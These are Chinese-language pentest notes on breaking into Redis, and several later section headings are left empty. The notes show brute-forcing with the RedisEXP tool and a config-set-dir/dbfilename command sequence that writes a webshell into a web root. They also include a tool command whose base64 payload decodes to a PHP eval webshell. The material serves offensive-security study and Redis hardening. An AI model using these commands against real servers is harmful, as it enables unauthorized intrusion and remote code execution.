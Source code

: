 ## redis简介

* Redis的数据存储在内存中，读写速度极快，常用作缓存服务
* Redis支持多种数据类型，包括：
  - 字符串（String）
  - 列表（List）
  - 集合（Set）
  - 有序集合（Sorted Set）
  - 哈希（Hash）
  - 位图（Bitmap）
  - HyperLogLog
  - Streams
* Redis也支持数据持久化，可以将内存中的数据定期快照（RDB）或以追加方式记录（AOF），确保数据在系统崩溃后能够恢复
* 通过主从复制（Master-Slave Replication）和哨兵（Sentinel）模式，Redis可以实现高可用性，自动故障转移。主从复制也可被攻击者用于提权。
* Redis支持简单的事务机制，可以通过`MULTI`、`EXEC`和`DISCARD`命令实现多个操作的原子性
* Redis支持在服务器端执行Lua脚本，能够批量执行多个命令，提高效率

## 如何打入redis

### redis未授权访问

* Redis2.x和3.x版本在**默认情况下没有启用访问控制**，这意味着如果Redis实例没有经过适当配置，任何人都可以通过网络连接访问Redis，并执行redis的命令
* 在高版本下，redis**默认情况下没有启用访问控制**，但是默认开启protected-mode：
  * 默认只能本地访问
  * 如果开启远程访问，必须设置密码


在实战过程中很容易判断redis是否启用访问控制，所以这里不再复现

### redis爆破

如果redis开启了访问控制，最直接获取其权限的方式就是爆破，这里推荐使用工具[yuyan-sec/RedisEXP: Redis 漏洞利用工具 (github.com)](https://github.com/yuyan-sec/RedisEXP)，这是一个redis的综合利用工具，除了这里的爆破，后面还会用到它

```shell
# 爆破redis
RedisEXP_windows_amd64.exe -m brute -r 192.168.110.179 -p 6379 -f pass.txt
```

* redis原生是没有用户名 - 密码认证模式的，默认情况下只有密码没有用户名

### ssrf打redis

### redis注入命令

## 拿到redis权限后如何进一步提权

### 写webshell

* 条件：
  * 知道网站绝对路径
  * 可以任意写文件
    * 需要该目录下的增删改查权限（这个一般需要redis以root权限运行或者于web服务器以相同的用户权限运行，还要防止selinux等一些权限控制系统，我在实验时通过apt包管理安装的redis默认运行在自动创建的用户redis下）
    * 在6.x版本及以后，需将配置文件中的enable-protected-configs设置为yes，这个配置默认为no限制了我们使用config set dir

这里搭建了一个简单的php站点，路径在`/www/wwwroot/192.168.110.177`下

```shell
# 设置要写入shell的路径
config set dir /www/wwwroot/192.168.110.177
# 对一个key写入webshell
set webshell "\n\n\n<?php phpinfo() ;?>\n\n\n"
# 持久化文件的文件名
config set dbfilename phpinfo.php
# 保存key
save
```

这里一般写入长度较短的小马没啥问题，要是写入的webshell长度过长，可能会遇到一些问题：

[原创 Paper | Windows 与 Java 环境下的 Redis 利用分析 (qq.com)](https://mp.weixin.qq.com/s/f7hPOoSSiRJpyMK51_Vxrw)

* 工具

```shell
RedisEXP_windows_amd64.exe -m shell -r 192.168.110.177 -p 6379 -w foobared -rp /www/wwwroot/192.168.110.177 -rf shell.php -s IlxuXG5cbjw/cGhwIGVjaG8gZXZhbCgkX0dFVFsnc2hlbGwnXSk7Pz5cblxuXG4i -b
```



### 写ssh-keygen公钥

### 写计划任务

### redis主从复制getshell

#### 远程主从

#### 本地主从

### CVE-2022-0543

## 实战案例

### redis到shiro反序列化

